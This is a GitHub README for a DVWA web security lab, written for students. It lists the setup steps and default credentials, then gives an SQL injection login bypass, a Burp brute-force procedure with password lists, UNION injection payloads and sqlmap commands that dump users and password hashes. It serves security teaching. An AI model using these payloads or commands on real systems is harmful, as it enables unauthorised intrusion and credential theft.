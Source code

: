 # DVWA - Damn Vulnerable Web Application <!-- omit in toc -->

## Index <!-- omit in toc -->
- [Introduction](#introduction)
- [Setup](#setup)
- [DVWA Security](#dvwa-security)
- [1. Test SQL injection to bypass authentication](#1-test-sql-injection-to-bypass-authentication)
- [2. Use Bursuite to brute force](#2-use-bursuite-to-brute-force)
- [3. SQL injection](#3-sql-injection)
- [4. Blind SQL injection with SQLmap](#4-blind-sql-injection-with-sqlmap)
  - [Lists databases](#lists-databases)
  - [Lists the tables on a specific database](#lists-the-tables-on-a-specific-database)
  - [Lists all users](#lists-all-users)
  - [Users and passwords](#users-and-passwords)
  - [Get tables structure](#get-tables-structure)
  - [Dump database information](#dump-database-information)

## Introduction
This document aims to demonstrate a set of Web application security laboratories, based on a set of vulnerability analysis tools and on some PHP exploitation techniques. 

For these laboratories will be used an application purposely vulnerable as a way of demonstrating some of the techniques applied. This application is called Damn Vulnerable Web Application (DVWA). The DVWA is a Web application developed in PHP with a MySQL database, which is purposely insecure.

![](assets/picture01.png) 

To run these labs the following requirements are needed:
- [Kali Linux](https://www.kali.org/) (the version used was 2.0), in particular the following tools (although others can also be used):
- [Nikto](https://cirt.net/Nikto2)
- [W3af](https://w3af.org/)
- [Skipfish](https://code.google.com/archive/p/skipfish/)
- [Burp Suite](https://portswigger.net/burp)
- [OWASP ZAP](https://www.zaproxy.org/)
- [OWASP](https://owasp.org/)
- [Metasploit](https://www.metasploit.com/)
- [sqlmap](https://sqlmap.org/)
- [Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [Apache Web Server](https://httpd.apache.org/)
- [Database server MySQL](https://www.mysql.com/).


The goal of these laboratories is even to demonstrate how a Web application can be exploited, and some of these attacks only result in an insecure application, with few security concerns, either in terms of development or configuration.

It is important to emphasize that it is not recommended to apply some of these techniques in real Web applications (spread across the Web), and students should apply them only to laboratories developed for this purpose.

## Setup
After installing and configuring the Apache web server and MySQL database server, it is necessary to install [DVWA](https://github.com/digininja/DVWA). Installation is simple, just unzip the ZIP file containing the application and copy them to the appropriate directory on the Apache Web server. If you choose, you can also use a Linux distribution called [Metasploitable 2](https://sourceforge.net/projects/metasploitable/) , where DVWA (along with other applications) is already installed.

When invoked for the first time it is necessary to install the DVWA database, in MySQL. It may be necessary to edit the `config.inc.php` file which will be in the "`config`" folder and configure the username and password to access the MySQL database server.
Default username and password in DVWA are as follows:

- Login: admin
- Password: password

## DVWA Security
Colocar o modo de segurança (DVWA Security) da aplicação Web - DVWA - em modo “low”. Isto é feito apenas por uma questão de simplicidade dos próprios ataques que podem ser realizados contra a aplicação. Quanto mais elevado o nível de segurança, mais complexos se tornarão os ataques a realizar.


## 1. Test SQL injection to bypass authentication
username = admin'#
pass = <blank>

## 2. Use Bursuite to brute force
2.1. Capture the request
2.2. Send to intruder
2.3. Select the Cluster Bomb
2.4. Set payloads
2.5. Start attack

List of usernames to Use
user
carlos
admin
superadmin

List of passwords to Use (top passwords od 2022)
123456
123456789
qwerty
password
12345
qwerty123
1q2w3e
12345678
111111
1234567890

## 3. SQL injection
    a' OR ''='

    ' union select 1,@@version#

    ' union select null,schema_name from information_schema.schemata #

    ' union select null,concat(first_name,0x0a,password) from users #

## 4. Blind SQL injection with SQLmap
### Lists databases
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –dbs
### Lists the tables on a specific database
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --tables
### Lists all users
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –users
### Users and passwords
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" --users --passwords
### Get tables structure
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --columns
### Dump database information
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --dump